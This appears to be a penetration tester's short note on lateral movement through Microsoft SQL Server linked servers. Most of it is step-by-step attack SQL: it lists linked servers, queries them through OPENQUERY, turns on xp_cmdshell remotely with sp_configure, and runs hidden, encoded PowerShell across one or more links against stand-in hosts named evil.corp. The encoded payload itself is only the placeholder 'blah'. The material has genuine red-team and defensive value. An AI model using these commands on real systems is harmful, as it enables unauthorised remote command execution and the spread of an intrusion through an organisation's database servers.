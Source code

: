 # SQL Lateral Movement
Linked Servers allows a database to access data from an external source.

## Identify and test automatically
Use [[PowerUpSQL#Crawl SQL Server Link]]

## Test manually
1. Discover links of the current instance:
    >SELECT * FROM master..sysservers;

2. Query this remote instance over the link using **OpenQuery**:  
⚠️ Single and double quotes matter!
    > SELECT * FROM OPENQUERY("sql1.evil.corp", 'select @@servername');

3. Check xp_cmdshell via link
Check MS SQL configuration via link
    >SELECT * FROM OPENQUERY("sql1.evil.corp", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');

4. If **RPC Out** is enabled on the link (not default), then you can enable xpcmdshell using the following syntax:
    >EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]

    >EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]

5. Exploit via link
    >SELECT * FROM OPENQUERY("sql1.evil.corp", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

    >SELECT * FROM OPENQUERY("sql1.evil.corp", 'select * from openquery("sql01.evil.external", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```